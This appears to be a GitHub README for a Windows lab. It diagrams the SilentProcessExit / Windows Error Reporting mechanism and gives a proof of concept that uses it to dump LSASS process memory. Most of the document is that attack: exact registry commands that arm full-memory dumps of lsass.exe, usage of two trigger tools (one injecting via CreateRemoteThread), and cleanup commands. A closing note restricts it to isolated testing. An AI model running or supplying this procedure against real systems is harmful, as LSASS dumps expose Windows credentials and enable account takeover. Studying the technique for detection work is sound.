



## **Silent Process Exit Mechanism Exploitation**

```
+----------------------------+
|      <ProcessName.exe>     |
+-------------+--------------+
              |
              | Directly or indirectly invoke
              |
              v
+-------------+-------------------------+
|  ntdll!RtlReportSilentProcessExit()   |
+-------------+-------------------------+
              |
              |
    Initiate ALPC Interaction
              |
              |  ALPC request to \WindowsErrorReportingServicePort
              v
+-----------------------------+
|  WER Service (WerSvc.dll)   |
|  hosted in svchost.exe      |
+-------------+---------------+
              |
              |  1. Extract filename of <ProcessName.exe>
              |
              |  2. Lookup HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<ProcessName.exe>
              |     → Read GlobalFlag
              | 
              |
              v
   [If GlobalFlag == 0x200]
              |
              |  Launch werfault.exe
              v
+---------------------------+
|       WerFault.exe        |
+---------------------------+
              |
              |
              | Lookup HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\<ProcessName.exe>
              | → Read ReportingMode, DumpType, LocalDumpFolder, ...
              |
              v
+------------------------------------+
|       1. Dump Process Memory       |
|       2. Lauch MonitorProcess      |
|       3. Pop-up Notification       |
+------------------------------------+
```

## **LSASS Dumping via SilentProcessExit**

```
LsassSilentProcessExitDump: Call RtlReportSilentProcessExit on LSASS process handle
LsassSilentProcessExitDump2: Call CreateRemoteThread with RtlReportSilentProcessExit on LSASS
```

### **PoC**

- **Modify Registry**

    - `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe`
        
        - Set **GlobalFlag** to enable **SilentProcessExit**
        
            ```cmd
            reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe" /v GlobalFlag /t REG_DWORD /d 512 /f
            ```
            
    - `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe`
        
        - Set **ReportingMode** to enable **LOCAL_DUMP**
            
            ```cmd
            reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe" /v ReportingMode /t REG_DWORD /d 2 /f
            ```
        
        - Set **LocalDumpFolder** to specify dump file location
            
            ```cmd
            reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe" /v LocalDumpFolder /t REG_SZ /d "C:\Temp" /f
            ```
        
        - Set **DumpType** to specify dump type for **full memory**
            
            ```cmd
            reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe" /v DumpType /t REG_DWORD /d 2 /f
            ```
            
- **Enable SeDebugPrivilege**

    - Users in **Administrators**  group have **SeDebugPrivilege** privilege

    - In default, it is **Disabled**
    
- **Trigger SilentProcessExit** 

    - **Call RtlReportSilentProcessExit on `LSASS process handle`**

        - Usage: 
            
            ```cmd
            LsassSilentProcessExitDump.exe <lsass.exe pid>
            ```
        
        - Result: When calling `RtlReportSilentProcessExit` on the LSASS process handle, not only is the memory of `lsass.exe` dumped, but the memory of the external process that triggered the behavior (`LsassSilentProcessExitDump.exe`) is also dumped
        
            
            
            

    - **Call CreateRemoteThread with RtlReportSilentProcessExit on `LSASS`** 

        - Usage: 
            
            ```cmd
            LsassSilentProcessExitDump2.exe <lsass.exe pid>
            ```
    
        - Result: When `RtlReportSilentProcessExit` is invoked within the LSASS process context via CreateRemoteThread, the generated dump contains only the memory of the `lsass.exe` process itself
        
            
            
            

- **Cleanup Registry**

    - `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe`

        ```cmd
        reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe" /f
        ```

    - `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe`

        ```cmd
        reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe" /f
        ```

> Important: This lab is for learning and testing only on the local/isolated environment. Do not run it against systems you do not own or have explicit permission to test.
